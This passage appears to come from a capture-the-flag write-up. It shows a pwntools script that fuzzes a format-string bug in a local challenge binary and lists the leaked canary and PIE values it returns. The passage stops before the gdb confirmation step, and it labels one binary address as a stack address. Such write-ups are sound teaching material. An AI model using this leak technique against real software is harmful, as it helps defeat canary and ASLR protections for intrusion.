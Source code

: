 The format strings will allow us to leak useful addresses within the binary as pie is enabled. we can also use this to leak the canary token, which is another security this binary has.

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

The idea for this exploit will be:

use the format strings to leak an address in the binary, this will help us the address of `win` and we also want to leak the canary token. To help with this I use a simple fuzz script:

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./s', checksec=False)

for i in range(100):
    io = process(elf.path,level='error')
    payload = f"%{i}$p"
    io.sendline(payload)
    print(f"offset {i} {io.recv()}")
```

This will print out the leak and the offset of that leak. We know the leak for the elf file will start with `0x55` or `0x56` this can vary slightly but its a good ballpark. The canary token should always end in `00`.

These are some leaks we get:

```
offset 1 b'0x1'
offset 2 b'0x1'
offset 3 b'0x7f6cfa619aa0'
offset 4 b'(nil)'
offset 5 b'(nil)'
offset 6 b'0x7f0070243625'
offset 7 b'0x7fed790815ff'
offset 8 b'(nil)'
offset 9 b'(nil)'
offset 10 b'0x7ffecfe285c0'
offset 11 b'0xe9f733d70ed31600'
offset 12 b'0x7ffcbea30270'
offset 13 b'0x560354ce82ae'
offset 14 b'0x1'
offset 15 b'0x7f088c429d90'
```

11 looks like the canary token, and 13 looks like a stack address. we can confirm this by using `gbd` the steps for that are:
